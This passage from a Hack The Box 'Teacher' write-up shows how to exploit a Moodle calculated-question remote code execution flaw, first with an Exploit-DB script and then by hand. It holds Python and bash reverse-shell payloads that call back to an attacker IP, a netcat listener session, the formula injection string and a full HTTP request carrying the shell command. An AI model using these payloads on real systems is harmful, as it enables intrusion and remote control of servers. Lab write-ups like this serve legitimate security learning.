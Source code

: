 ### Method 1 - php/webapps/46551.php Automatic Exploitation
Since if we first run the exploit with the default parameters is not giving a shell, we can try to change the payload and use something more reliable than python, so, we change...  
This:
```
// Inject a reverse shell                                                                                 
// You could modify this payload to inject whatever you like
$this->payload = "(python+-c+'import+socket,subprocess,os%3bs%3dsocket.socket(socket.AF_INET,socket.SOCK_STREAM)%3bs.connect((\"".$this->ip."\",".$this->port."))%3bos.dup2(s.fileno(),0)%3b+os.dup2(s.fileno(),1)%3b+os.dup2(s.fileno(),2)%3bp%3dsubprocess.call([\"/bin/sh\",\"-i\"])%3b')";
```
tho this:  
```
// Inject a reverse shell                                                                                 
// You could modify this payload to inject whatever you like                                              
$this->payload = "(bash+-c+'bash+-i+>%26+/dev/tcp/10.10.14.22/4444+0>%261')";
```
Now we can see that when we run the exploit again, we get a shell:
```
root@kali:~/Documents/HTB/Boxes/Teacher# nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.22] from (UNKNOWN) [10.10.10.153] 34212
bash: cannot set terminal process group (822): Inappropriate ioctl for device
bash: no job control in this shell
www-data@teacher:/var/www/html/moodle/question$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@teacher:/var/www/html/moodle/question$
```

### Method 2 - php/webapps/46551.php Manual Exploitation
Since we are curious and we don't like easy things, let's try to exploit this manually.
Let's help ourselves by reading the code of the actual exploit and using [This Advisory](https://blog.sonarsource.com/moodle-remote-code-execution).  
So now, let's open the Algebra course administration page, and open:  
Settings -> Turn Editing On -> Add Activity or Resource.  
Then: Edit Quiz -> Add New Question -> Calculated.  
Now in the Formula section we can add our payload (according to the security advisory source):  
```
/*{a*/`$_REQUEST[cmd]`;//{x}}
```
Now, we can click next couple of times and send the following request using burp:
```
GET /moodle/question/question.php?returnurl=%2Fmod%2Fquiz%2Fedit.php%3Fcmid%3D7%26addonpage%3D0&appendqnumstring=addquestion&scrollpos=0&id=9&wizardnow=datasetitems&cmid=7&cmd=bash+-c+'bash+-i+>%26+/dev/tcp/10.10.14.22/4444+0>%261' HTTP/1.1
Host: 10.10.10.153
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: MoodleSession=bqljifn8h4dlhqg0045bi47qn1
Upgrade-Insecure-Requests: 1
Sec-GPC: 1
```
And we can get a shell as www-data.
